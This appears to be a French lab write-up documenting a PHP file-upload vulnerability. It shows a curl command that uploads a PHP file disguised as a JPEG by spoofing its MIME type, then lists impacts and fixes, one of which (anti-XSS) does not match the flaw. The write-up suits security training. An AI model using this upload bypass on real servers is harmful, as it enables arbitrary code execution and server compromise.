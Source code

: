 # README : Injection de code PHP via l'upload d'une image

## Description

Cette brèche met en évidence une vulnérabilité dans le processus d'upload de fichiers sur un site web. Elle permet à un attaquant potentiel d'injecter du code PHP au lieu d'une image, ce qui peut être utilisé pour exécuter des commandes arbitraires sur le serveur.

## Fonctionnement

- Accédez à la page d'upload : `http://X.X.X.X/?page=upload`
- Créez un fichier PHP contenant du code malveillant :

```php
echo '<?php echo "test de code PHP" ?>' > /tmp/php_injection.php
```

- Utilisez curl pour envoyer le fichier comme une image :

```shell
 curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/php_injection.php;type=image/jpeg" "http://X.X.X.X/index.php?page=upload"
```

- Le fichier PHP injecté sera téléchargé et exécuté sur le serveur.

## Impact

Cette vulnérabilité peut permettre à un attaquant de :

- Exécuter du code PHP arbitraire sur le serveur
- Accéder aux informations sensibles ou exécuter des commandes système
- Potentiellement compromettre la sécurité entière du serveur web

## Recommandations

Pour corriger cette vulnérabilité :

- Valider et sécuriser toutes les entrées utilisateur côté serveur avant de les utiliser ou de les stocker.
- Utiliser une validation robuste pour empêcher l'upload de fichiers PHP.
- Implémenter une protection anti-XSS pour éviter l'exécution de code malveillant dans le navigateur.
- Limiter les permissions du serveur web pour restreindre l'accès aux dossiers sensibles.
- Utiliser un filtre MIME pour vérifier le type réel des fichiers uploadés.
